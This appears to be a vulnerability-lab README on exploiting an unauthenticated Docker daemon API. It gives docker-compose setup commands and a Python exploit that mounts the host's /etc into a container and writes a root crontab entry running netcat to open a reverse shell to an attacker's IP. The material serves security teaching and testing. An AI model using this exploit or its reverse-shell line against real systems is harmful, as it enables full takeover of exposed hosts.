

# Docker daemon api unauthorized access exploit

[中文版本(Chinese version)](README.zh-cn.md)

Reference Links：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## Vulnerability environment

Enter the following command to build and run the vulnerability environment:

```
docker-compose build
docker-compose up -d
```

## Exploit

Start a container, and mount the host `/etc` folder to the container, then we will have read/write access to any files.

We can put the commands in crontab configuration file to reverse shell

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

Reverse shell exploit by injecting commands in crontab:


